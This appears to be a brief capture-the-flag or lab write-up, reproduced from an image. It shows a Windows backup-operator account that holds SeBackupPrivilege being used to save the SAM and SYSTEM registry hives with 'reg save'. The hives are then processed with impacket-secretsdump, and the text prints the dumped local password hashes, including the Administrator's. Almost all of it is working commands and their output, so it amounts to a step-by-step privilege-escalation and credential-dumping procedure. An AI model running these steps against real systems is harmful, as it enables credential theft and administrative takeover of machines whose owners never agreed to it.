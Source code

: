 
```
net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

we have priv:
```
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```

we are about to pwn in a few commands(if things go well lol):
```
reg save HKLM\SAM     C:\temp\bk\SAM.save
reg save HKLM\SYSTEM  C:\temp\bk\SYSTEM.save
```

download those to my kali and then run:
```
impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL > local_hashes.txt
```
```
cat local_hashes.txt                         
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```
